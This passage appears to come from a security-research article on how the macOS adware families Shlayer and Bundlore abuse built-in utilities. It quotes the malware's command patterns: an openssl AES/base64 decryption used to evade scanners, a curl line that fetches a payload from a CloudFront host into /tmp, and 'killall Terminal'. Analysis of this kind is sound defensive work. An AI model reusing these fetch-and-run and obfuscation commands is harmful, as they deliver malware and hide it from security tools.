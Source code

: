 
[![FIG 2-1](https://media.threatpost.com/wp-content/uploads/sites/103/2021/08/19080101/FIG-2-1.png)](https://media.threatpost.com/wp-content/uploads/sites/103/2021/08/19080101/FIG-2-1.png)


Upon installation, the malware bombards the victims machine with ads, and also intercepts browser searches in order to modify the search results to promote more ads.


Shlayer and Bundlore – macOS utilities
--------------------------------------


Shlayer and Bundlore binaries use several macOS utilities in their attack kill chain. Most variants of them are known to commonly leverage at least 3 of the 5 built-in macOS commands and utilities: openssl, curl, sqlite3, killall and funzip.


The prevalence of usage of these binaries in our daily incoming samples from the threat intelligence systems and customer telemetry for the past quarter is shown below.


[![FIG 3-1](https://media.threatpost.com/wp-content/uploads/sites/103/2021/08/19080157/FIG-3-1.png)](https://media.threatpost.com/wp-content/uploads/sites/103/2021/08/19080157/FIG-3-1.png)


The working and usage of these utilities in the attack killchain is described below.


#### Openssl


The openssl program is a command line tool in macOS for using the various cryptography functions (SSL, TLS) of OpenSSL’s crypto library from the shell. We have observed malicious binaries use openssl with base64, Advanced Encryption Standard (AES), CBC (Cipher Block Chaining) to thwart security scanners in the format as shown below:


openssl enc -aes-256-cbc -d -A -base64 -pass pass:<>


#### Curl


Curl is a macOS command-line tool (curl) used for transferring data using various network protocols. We have observed malicious binaries use curl in the format as shown below:


curl -f0L -o /tmp/<> [http://d2hznnx43bsrxg.cloudfront.net/sd/<>](http://d2hznnx43bsrxg.cloudfront.net/sd/%3C%3E)


#### Killall


Killall is used to kill the processes specified by command or pattern match. The malicious binaries use this command to kill the script running from the terminal in the format as shown below:


killall Terminal


#### Sqlite

